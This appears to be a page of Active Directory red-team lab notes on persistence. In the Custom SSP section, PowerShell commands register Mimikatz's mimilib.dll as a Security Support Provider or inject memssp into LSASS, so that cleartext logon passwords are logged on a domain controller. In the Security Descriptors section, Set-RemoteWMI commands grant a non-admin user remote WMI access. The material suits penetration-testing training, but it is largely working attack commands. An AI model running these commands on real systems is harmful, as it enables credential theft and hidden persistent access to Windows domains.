 ## Custom SSP
A Security Support Provider (SSP) is a DLL which provides methods for an application to obtain an authenticated connection. Some SSP Packages by Microsoft are 
- NTLM
- Kerberos
- Wdigest
- CredSSP
Mimikatz provides a custom SSP - `mimilib.dll`. This SSP logs local logons, service account and machine account passwords in clear text on the target server.

To achieve this we can use two techniques:

1. Drop mimilib.dll to System32 and add it to `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages`:

```powershell
$packages=Get-ItemProperty
HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'Security Packages' 
$packages+="mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```

2. Using mimikatz, inject into LSASS (Not stable with Server 2016)
```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```

From then on all local logons on the DC are logged to `C:\Windows\system32\kiwissp.log`.

## Security Descriptors 

It is possible to modify Security Descriptors (security information like Owner, primary group, DACL and SACL) of multiple remote access methods (securable objects) to allow access to non-admin users. 

Administrative privileges are required for modifications such as these.

### WMI

On local machine for student1:
```powershell
Set-RemoteWMI -UserName student1 -Verbose
```

On remote machine for student1 without explicit credentials:
```powershell
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```

On remote machine with explicit credentials. Only `root\cimv2` and nested namespaces:
```powershell
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose
```
